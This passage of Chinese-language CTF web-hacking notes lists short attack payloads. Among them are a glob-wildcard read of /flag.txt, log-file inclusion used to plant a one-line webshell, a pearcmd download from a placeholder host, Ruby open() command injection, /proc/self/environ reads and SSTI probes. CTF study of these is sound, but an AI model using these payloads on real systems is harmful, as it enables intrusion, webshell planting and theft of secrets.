        wget 反弹shell

   8. 查看rce章节
   11. [escapeshellarg](https://www.php.net/manual/zh/function.escapeshellarg.php#99213) 绕过, 使用非ascii字符比如 fl%7gag 绕flag
   12. 未过滤?和/   ?shell=/???/????64 /????????  -> /bin/base64 /flag.txt   , 同ctfshow web55
   13. session文件包含  web_php_session_include.py
   13. 日志包含 ?c=/var/log/nginx/access.log, 如果包含user-agent请求头,写入一句话木马
          蚁剑连接/var/log/nginx/access.log
   
   14. ssrf 看有没url, returl,   returl=https://www.baidu.com , 看有没返回值。
   14. ?c=pearcmd&+download+http://xx.yy/1.php           https://blog.csdn.net/qq_46091464/article/details/108954166

## ruby

res = open(file, 'r').read()   open()函数来打开可控制 file 参数传入的文件名。而 ruby 中的 open()函数是借用系统命令来打开文件，且没用过滤 shell 字符，导致在用户控制文件名的情况下，将可以注入任意命令。

`file=|whoami > test.png`

## nodejs/javascript

`setTimeout` 当 delay 大于 2147483647 或小于 1 时，则 delay 将会被设置为 1。非整数的 delay 会被截断为整数。

javascript 反混淆 https://lelinhtinh.github.io/de4js/
## linux知识
proc见 Web_php_NSSCTF.md - # NSSCTF prize2 - nodejs 文件描述符

/proc/pid/fd 里有所有打开的file descriptor信息

/proc/self/cmdline
/proc/self/environ
[/proc/self/mem](https://askdev.io/cn/questions/52854/ru-he-zai-linux-xia-cong-proc-pid-mem-du-qu-shu-ju)  https://erroratao.github.io/2022/07/10/File_Session/

wsgi.ini

读取mac地址 /sys/class/net/eth0/address

见 writeup/Web_php_NSSCTF.md#NSSCTF prize2 - nodejs 文件描述符

### 网卡地址
uuid.getnode() 为网卡地址去掉:
```
ifconfig -a
1. ifconfig-a其中 HWaddr字段就是mac地址 
2. cat/sys/class/net/eth0/address  查看etho的mac地址 
3.cat /proc/net/arp 查看连接到本机的远端ip的mac地址
4.程序中使用 SIOCGIFHWADDR的oct命令获取mac地址N@ Tasso}

```

## python - ssti
ssti注入 Twig: {{7*'7'}} 输出49  [BJDCTF2020]Cookie is so stable https://www.cnblogs.com/wkzb/p/12422190.html
        Jinja2 {{7*'7'}} 输出'7777777'
        python/flask/django

